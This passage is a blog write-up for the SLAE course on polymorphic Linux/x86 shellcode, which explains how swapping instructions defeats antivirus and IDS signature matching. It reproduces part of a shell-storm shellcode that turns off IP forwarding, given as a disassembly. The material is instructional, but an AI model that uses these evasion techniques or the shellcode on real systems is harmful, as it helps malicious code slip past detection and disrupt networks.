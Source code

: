 ```yaml
---
layout: post
title: SLAE Assignment 6 - Polymorphic Shellcode (Linux/x86)
---
```


Polymorphism is a generic method to prevent pattern-matching. Pattern-matching means that a program P (an antivirus or an IDS) has a data-base with 'signatures'. A signature is bytes suite identifying a program. We can defeat such pattern matching programs by replacing assembly instructions with other equivalent set of instructions which will result in different shellcode. Consider the below example clearing a register and moving some value into it.



```nasm
xor eax, eax
mov al, 0xa
```
The same result can be acheived with the following set of instructions as well.
```nasm
push 0xa
pop eax
```
There are other set of instructions also which will yeild the same result, but with different shellcode bytes. The objective of this assignment are as follows:
- Create polymorphic version of 3 shellcodes from [shell-storm.org](http://www.shell-storm.org)
- The polymorphic version should not be greater than **150%** of the original shellcode
- Bonus points if the size of polymorphic shellcode is less than the original shellcode

So without further ado, lets get down to business.

### #1 - Linux/x86 - Set '/proc/sys/net/ipv4/ip_forward' to '0' & exit() - 83 Bytes
The first shellcode is to set the value of `/proc/sys/net/ipv4/ip_forward` to `0` and can be found [here](http://shell-storm.org/shellcode/files/shellcode-848.php). We would need root privileges to successfully run this shellcode.
```c
/*
    In The Name of G0D
    Linux/x86 - Set '/proc/sys/net/ipv4/ip_forward' to '0' & exit() 
    Size : 83 Bytes
    fun for routers ;)
    Author : By Hamid Zamani (aka HAMIDx9)
    Member of ^^Ashiyane Digital Security Team^^

Disassembly of section .text:

08048054 <_start>:
 8048054:   31 c0                   xor    %eax,%eax
 8048056:   50                      push   %eax
 8048057:   68 77 61 72 64          push   $0x64726177
 804805c:   68 5f 66 6f 72          push   $0x726f665f
 8048061:   68 34 2f 69 70          push   $0x70692f34
 8048066:   68 2f 69 70 76          push   $0x7670692f
 804806b:   68 2f 6e 65 74          push   $0x74656e2f
 8048070:   68 73 79 73 2f          push   $0x2f737973
 8048075:   68 72 6f 63 2f          push   $0x2f636f72
 804807a:   66 68 2f 70             pushw  $0x702f
 804807e:   89 e3                   mov    %esp,%ebx
 8048080:   31 c9                   xor    %ecx,%ecx
 8048082:   b1 01                   mov    $0x1,%cl
 8048084:   b0 05                   mov    $0x5,%al
 8048086:   cd 80                   int    $0x80
 8048088:   89 c3                   mov    %eax,%ebx
 804808a:   31 c9                   xor    %ecx,%ecx
```